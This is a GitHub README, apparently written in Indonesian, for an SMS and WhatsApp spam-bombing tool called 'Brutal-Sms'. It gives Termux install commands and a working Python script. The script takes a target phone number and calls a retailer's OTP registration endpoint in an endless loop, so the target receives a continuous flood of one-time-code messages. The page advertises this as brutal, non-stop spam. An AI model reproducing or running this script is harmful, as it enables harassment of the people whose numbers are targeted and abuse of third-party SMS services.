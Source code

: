 # Brutal-Sms



Spam Brutal WhatsApp 24 jam non stop

<details open>

  <summary><strong> Install Package + Run Script </strong></summary>

  ```bash

  pkg update && pkg upgrade

  pkg install nano

  pkg install git

  pkg install python

  git clone https://github.com/QueenMilaka/Brutal-Sms

  bash install.sh

  cd Brutal-Sms

  python sms.py

  ```

  </details>

<details open>

  <summary><strong> 24 jam non stop tutorial </strong></summary>

  ```bash

  Example:

  import os,sys,time,requests,json

  abc=input("Nomor Target:")

  while True:

        print (abc)

        # Tambah time.sleep(5) (Jika Ingin Delay)

  ```

  </details>

#### KELEBIHAN 📍

| Kelebihan | Check |

|--------|--------|

| **24 Jam non stop** |[✔️]() |

| **Brutal Spam** |[✔️]() |

| **Simple** |[✔️]() |

| **No Encrypt** |[✔️]() |

| **Subscribe** |[Here](https://youtube.com/AuliaRahmanOfficial123) |

---------

<details open>

  <summary><strong> 24 jam non stop example </strong></summary>

  ```bash

  import os,sys,time,requests,json

  nomor=input("Nomor Target:")

  while True:

        requests.post("https://beryllium.mapclub.com/api/member/registration/sms/otp",headers={"Host":"beryllium.mapclub.com","content-type":"application/json","accept-language":"en-US","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","origin":"https://www.mapclub.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.mapclub.com/","accept-encoding":"gzip, deflate, br"},data=json.dumps({"account":nomor})).text

        time.sleep(10) # Waktu Delay Bisa Atur Sendiri

  ```

  </details>

> SUBSCRIBE MY CHANNEL >_<

[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Aulia%20Rahman%20Official&color=green)](https://youtube.com/AuliaRahmanOfficial123)

[![](https://img.shields.io/static/v1?logo=youtube&label=subscribe&message=Aulia%20Rahman%20Official&color=green)](https://youtube.com/AuliaRahmanOfficial123)

